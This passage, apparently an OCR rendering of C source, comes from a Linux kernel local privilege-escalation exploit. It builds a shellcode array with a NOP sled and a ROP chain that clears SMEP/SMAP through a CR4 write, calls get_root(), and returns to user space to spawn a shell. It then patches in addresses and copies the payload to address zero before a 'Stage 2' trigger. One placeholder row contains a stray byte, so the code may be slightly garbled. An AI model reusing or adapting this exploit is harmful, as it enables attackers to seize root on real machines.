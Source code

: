```c
        0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
        0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
        0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
        0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, // need proper size of paddings just before at RIP.
        /* SMEP/SMAP Bypass */
	    // 0x68,
	    0x5f, 0xc3,                                     // pop rdi; ret;
	    0xe0, 0x06, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00, // 0x00000000000606e0 // SMEP/SMAP off
	    0x0f, 0x22, 0xe7,                               // mov cr4, rdi;
	    0x5d, 0xc3,                                     // pop rbp; ret;
	    0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, // rbp
	    /* call get_root() */
	    // 0x48, 0xb8,
	    // 0x42, 0x42, 0x42, 0x42, 0x42, 0x42, 0x42, 0x42, // mov rax, &get_root()
	    // 0xff, 0xd0, 0x48,                               // call rax
	    0x42, 0x42, 0x42, 0x42, 0x42, 0x42, 0x42, 0x42, // &get_root()
	    /* userland info */
	    0x0f, 0x01, 0xf8,                               // swapgs;
	    0x5d, 0xc3,                                     // pop rbp; ret;
	    0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, // rbp
	    0x48, 0xcf,                                     // iretq;
	    // rip = get_shell
        // cs = user_cs
        // rflags = user_rflags
        // rsp = asm('rsp')
        // ss = user_ss
	    0x43, 0x43, 0x43, 0x43, 0x43, 0x43, 0x43, 0x43, // rip     : get_shell()
	    0x44, 0x44, 0x44, 0x44, 0x44, 0x44, 0x44, 0x44, // cs      : user_cs
	    0x45, 0x45, 0x45, 0x45, 0x45, 0x45, 0x45, 0x45, // rflags  : user_rflags
	    0x46, 0x46, 0x46, 0x46, 0x46, 0x46, 0x46, 0x46, // rsp     : user_rsp
	    0x47, 0x47, 0x47, 0x45, 0x47, 0x47, 0x47, 0x47, // ss      : user_ss
	};
	
	backup_stat(); // backup userland context
	
	void **offset = 0;
	
	offset = rawmemchr(shellcode, 0x42);
	(*offset) = get_root;
	
	offset = rawmemchr(shellcode, 0x43);
	(*offset) = get_shell;
	
	offset = rawmemchr(shellcode, 0x44);
	(*offset) = &user_cs;
	
	offset = rawmemchr(shellcode, 0x45);
	(*offset) = &user_rflags;
	
	offset = rawmemchr(shellcode, 0x47);
	(*offset) = &user_ss;
	
	register unsigned long rsp asm("rsp");
	user_rsp = (unsigned long)rsp;
	
	offset = rawmemchr(shellcode, 0x46);
	(*offset) = &user_rsp;
	
	memcpy((void *)0, shellcode, sizeof(shellcode));
	
	printf("\e[36m[*] Stage 2 - Trigger\n");
	
```